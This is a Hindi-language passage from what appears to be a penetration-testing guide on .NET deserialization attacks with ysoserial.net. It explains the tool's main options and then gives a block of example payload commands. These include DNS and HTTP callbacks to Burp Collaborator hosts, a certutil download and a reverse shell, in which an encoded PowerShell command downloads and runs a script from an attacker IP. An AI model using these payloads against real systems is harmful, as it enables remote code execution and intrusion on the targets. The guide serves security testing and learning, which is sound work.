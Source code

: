 अगर आप जानना चाहते हैं **कि ysoserial.net अपना उत्पीड़न कैसे बनाता है** तो आप [**इस पृष्ठ की जाँच कर सकते हैं जहाँ व्याख्या की गई है ObjectDataProvider गैजेट + ExpandedWrapper + Json.Net फॉर्मेटर**](basic-.net-deserialization-objectdataprovider-gadgets-expandedwrapper-and-json.net.md)।

**ysoserial.net** के मुख्य विकल्प हैं: **`--gadget`**, **`--formatter`**, **`--output`** और **`--plugin`**।

* **`--gadget`** उपयोग किया जाता है उस गैजेट को दुरुपयोग करने के लिए (जिसे डेसीरियलाइज़ेशन के दौरान कमांड निष्पादित करने के लिए दुरुपयोग किया जाएगा)।
* **`--formatter`**, उपयोग किया जाता है उत्पीड़न करने के लिए विधि को निर्दिष्ट करने के लिए (आपको जानना होगा कि पेलोड को डेसीरियलाइज़ करने के लिए पीछे का लाइब्रेरी कौन सा उपयोग कर रहा है और उसी का उपयोग करना होगा)
* **`--output`** उपयोग किया जाता है अगर आप उत्पीड़न को **raw** या **base64** एन्कोड करना चाहते हैं। _ध्यान दें कि **ysoserial.net** पेलोड को **UTF-16LE** का उपयोग करके एन्कोड करेगा (जो विंडोज पर डिफ़ॉल्ट रूप से उपयोग किया जाने वाला एन्कोडिंग है) इसलिए अगर आप रॉ लेते हैं और बस इसे एन्कोड करते हैं तो आपको कुछ **एन्कोडिंग संगतता समस्याएं** हो सकती हैं जो उत्पीड़न को सही ढंग से काम करने से रोकेगी (HTB JSON बॉक्स में पेलोड UTF-16LE और ASCII दोनों में काम कर गया था लेकिन यह यह नहीं मतलब है कि यह हमेशा काम करेगा)।_
* **`--plugin`** ysoserial.net विशेष फ्रेमवर्क के लिए **उत्पीड़न बनाने के लिए प्लगइन** का समर्थन करता है जैसे ViewState

#### अधिक ysoserial.net पैरामीटर

* `--minify` एक **छोटा पेलोड** प्रदान करेगा (यदि संभव हो)
* `--raf -f Json.Net -c "कुछ भी"` यह सभी गैजेट्स को निर्दिष्ट करेगा जो एक प्रदत्त फॉर्मेटर के साथ उपयोग किए जा सकते हैं (`Json.Net` इस मामले में)
* `--sf xml` आप एक गैजेट (`-g`) को निर्दिष्ट कर सकते हैं और ysoserial.net "xml" शब्द समाहित करने के लिए खोजेगा (मामले की अनुसार मामले संवेदनशील हैं)

**ysoserial उदाहरण** उत्पीड़न बनाने के लिए:
```bash
#Send ping
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "ping -n 5 10.10.14.44" -o base64

#Timing
#I tried using ping and timeout but there wasn't any difference in the response timing from the web server

#DNS/HTTP request
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "nslookup sb7jkgm6onw1ymw0867mzm2r0i68ux.burpcollaborator.net" -o base64
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "certutil -urlcache -split -f http://rfaqfsze4tl7hhkt5jtp53a1fsli97.burpcollaborator.net/a a" -o base64

#Reverse shell
#Create shell command in linux
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.44/shell.ps1')" | iconv  -t UTF-16LE | base64 -w0
#Create exploit using the created B64 shellcode
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "powershell -EncodedCommand SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADQANAAvAHMAaABlAGwAbAAuAHAAcwAxACcAKQA=" -o base64
```
**ysoserial.net** में एक **बहुत दिलचस्प पैरामीटर** भी है जो हर एक एक्सप्लॉइट काम करने के बेहतर समझने में मदद करता है: `--test`\
यदि आप इस पैरामीटर को इंडिकेट करते हैं तो **ysoserial.net** **स्थानीय रूप से** एक्सप्लॉइट की कोशिश करेगा, ताकि आप यह जांच सकें कि आपका पेलोड सही ढंग से काम करेगा।\
यह पैरामीटर मददगार है क्योंकि यदि आप कोड की समीक्षा करते हैं तो आप निम्नलिखित तरह के कोड टुकड़े पाएंगे ([ObjectDataProviderGenerator.cs](https://github.com/pwntester/ysoserial.net/blob/c53bd83a45fb17eae60ecc82f7147b5c04b07e42/ysoserial/Generators/ObjectDataProviderGenerator.cs#L208)):
```java
if (inputArgs.Test)
{
try
{
SerializersHelper.JsonNet_deserialize(payload);
```